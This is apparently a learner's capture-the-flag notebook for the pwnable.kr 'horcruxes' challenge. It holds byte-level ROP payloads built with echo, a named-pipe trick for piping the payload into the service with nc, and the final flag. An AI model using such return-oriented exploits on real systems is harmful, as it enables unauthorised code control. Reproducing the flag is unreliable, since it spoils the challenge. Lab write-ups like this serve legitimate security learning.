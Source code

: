 - `echo -ne "69\n111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111\x4b\xfe\x09\x08\x6a\xfe\x09\x08\x89\xfe\x09\x08\xa8\xfe\x09\x08\xc7\xfe\x09\x08\xe6\xfe\x09\x08\x05\xff\x09\x08\x01\x01\x0a\x08" > shellcode.bin`
- It does not work! Why you ask? 0x0a is \n - this is why :(
	+ I need to do something about it hmm
- Wait, I don't need to jump back to main anyway, the code that prints the flag is inside ropme. I can't jump to this code directly because the address has 00 in it
	+ BUT! the address in main that calls ropme is jumpable
	+ `0x0809fff9` - if il'l jump back there when knowing the EXP, I can win! 
- `echo -ne "69\n111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111\x4b\xfe\x09\x08\x6a\xfe\x09\x08\x89\xfe\x09\x08\xa8\xfe\x09\x08\xc7\xfe\x09\x08\xe6\xfe\x09\x08\x05\xff\x09\x08\xf9\xff\x09\x08" > shellcode.bin`

- There is a problem now. I'll explain.
	+ The line that I need to pass is this cmp:
	+ `=> 0x080a0107 <+254>:	cmp    eax,edx`
	+ eax holds the sum of all EXP's the ROP functions print
		* If I add up all the numbers - I get the answer
		* I tested it this way: `504301430 + -2043471583 + 1468533847 + 115756185 + 464421393 + -1457937489 + 1447029056` which equal to eax in this check
		* This is true also for the second time I enter ropme, after jumping inside A,B,C,D,E,F,G.
	+ I can calculate the answer - my problem is inputing it.
	+ I only know the answer AFTER I input the shellcode.bin file to the program.
- I need to think of a way to input the answer, or ROPing my way to victory

- I tried doing a few things, but I have managed to do something that will allow me to do so!
- Using the following command `cat shellcode.bin - | ~/horcruxes`
   + You can press *ENTER* and the shellcode will get inside, then you can input from stdin
   + I must say that it's not seem to work - still got the *You'd better get more experience to kill Voldemort* string, which means that the code wasn't getting to the exit() (I am running it without the right permmisions anyway, so the flag shouldn't be printed, but I was hoping to get an error or to the exit())

- I was thinking about maybe finding gadgets with `ROPgadget` in order to maybe find a way to pass this check and get to the flag, but right now I am leaving this challange because it seems like the challange is down. `nc pwnable.kr 9032` is not working, I am getting an RST from the server :(
- I'll be back!

- I'm back! (it works now)
- Found out a about a function callled init_ABCDEFG - which is the one that sets all of the random numbers that ABCDEFG print

- Made it!
- I came up with a cool trick
```bash
mkfifo pipefile
cat shellcode.bin - > pipefile  # This will cat the content of the shellcode to stdin - into the pipefile

# In a different shell
cat pipefile | nc 127.0.0.1 9032

# The first input will be the shellcode, then I can calculate the answer and input it with stdin!
```

- # Magic_spell_1s_4vad4_K3daVr4!
- # pwned.